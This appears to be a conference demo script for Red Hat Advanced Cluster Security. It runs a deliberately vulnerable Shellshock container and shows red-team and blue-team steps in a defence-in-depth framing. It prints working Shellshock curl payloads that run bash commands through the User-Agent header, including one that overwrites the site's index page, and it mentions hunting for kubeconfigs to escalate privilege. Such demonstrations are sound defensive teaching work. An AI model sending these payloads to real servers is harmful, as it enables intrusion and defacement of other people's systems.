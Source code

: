 # Insecure Deployment Demo

Thanks Rob! We're excited to be joining the Red Hat team. As we focus on Red Hat advanced cluster security we want to show you security through a different lense today.

We believe that security is like on onion. It should have layers to it. 

Your defensive strategy should not be broken if one control is bypassed and thats part of the beauty of the movement to containerization.


Containerization as a movement has isolated this attack surface.

# Security is about defense in depth.

## Lets attack by peeling back the layers of the onion.

### Layer 1
- Red Team: Application is the outter most layer because these are exposed. 
- Blue Team: Layer one defense - application vulerablility management and dependency management.

### Layer 2
- Red Team: Then lets own the operating system through privledge escalation
- Blue Team: Layer 2 defense - logging & alerting/blocking procceses/hardening/minimizing privledges

### Layer 3
- Red Team: Lets laterally move through the environment get a backdoor and action on objective. 
- Blue Team: Admission controls & backdoor container monitoring.

# Layer 1

## What is shellshock

Improper input validation bash code allowed users to put trailing commands after the definition of environment variables. 

You read this and first think - what uses environment variables.....crap. TONS OF THINGS! SSH, Apache modules, etc.

This meant remote code execution on apaches mod_cgi(d) library used in web servers.

CGI stands for Common Gateway Interface. It is a way to let Apache execute script files and send the
output to the client. So we just need something that will use bash.

# Demo Script

*Note: It's important that this is not exposed to the public internet and highly reccomended to never be run in privlegded mode. (You will actually be hacked if running in privledged mode and publically expose this)* It's reccomended that when using this you only port forward.

## Setup

1. Run shellshock vulerable pod

oc run shellshock --labels=app=shellshock,team=evilcasper --image=vulnerables/cve-2014-6271 -n default

2. Port forward to the pod.

oc port-forward shellshock 8080:80 -n default

## Layer 1: Reconnisance, 

3. Check out the server to do basic reconnisance - by looking at the request headers in the network view of the developer tab. Then check exploitdb.

You want to know more about the application.

Check server headers.

Its obviously vulerable to shellshock and has given us the endpoint. This is convient. 

### Weaponization and delivery

Making it easy for them to find me - the user agent is removed - which is totally normal network traffic :P

Have to make it hard for the copy pasta script kiddies. Also you're never gonna get a website with vulerable as an endpoint.

curl -H "user-agent: () { :; }; echo; echo; /bin/bash -c 'ls /'" \
http://localhost:8080/cgi-bin/vulnerable

4. Check out the index file for apache

curl -H "user-agent: () { :; }; echo; echo; /bin/bash -c 'cat /var/www/index.html'" \
http://localhost:8080/cgi-bin/vulnerable

### Exploitation

6. Time to mess with people

curl -H "user-agent: () { :; }; echo; echo; /bin/bash -c 'echo \"<html><body><h1>I like cat memes - also you should protect your stuff</h1><body><img src=https://i.redd.it/v5cingisv6p01.jpg></body></html>\" > /var/www/index.html'" http://localhost:9080/cgi-bin/vulnerable

### Blue team


7. Turn on security controls for proccess baselining

Turn on proccess baselining


curl -H "user-agent: () { :; }; echo; echo; /bin/bash -c 'cat /var/www/index.html'" \
http://localhost:8090/cgi-bin/vulnerable


Observe how me messing with people is blocked and the pod is killed. We're protected by our container isolation and RHACS.

But seriously we own this operating system. Next I need to break out of the container. If the container is privledged this is a peice of cake. Unfortunately this isn't but next I'm looking for some kubeconfigs (credentials to Kubernetes API on the Operating system protected by access controls) to begin privledge escalation. 

Lets assume we got unlucky and this was found now what. We need to mitigate this. 

## Exec into the pod

8. Redeploy shellshock

kubectl run shellshock --labels=app=shellshock,team=evilcasper --image=vulnerables/cve-2014-6271 -n default

oc exec -it shellshock -n default -- bash

10. Observe violation - and then turn policy to blocking mode - now observe this being blocked.

oc exec -it shellshock -n default -- bash

Label can be used to implement exceptions and monitor.


So we're able to stop users with access to the Kube API from being able to access our containers and implement proccesses to allow access for troubleshooting. Containers are supposed to be ephemeral.


## Minimalist containers and risk prioritization

1. Discuss risk prioritization in RHACS

Example: Want to block any high or critical vulerability thats externally facing, or a crown jewel.

Discuss risk



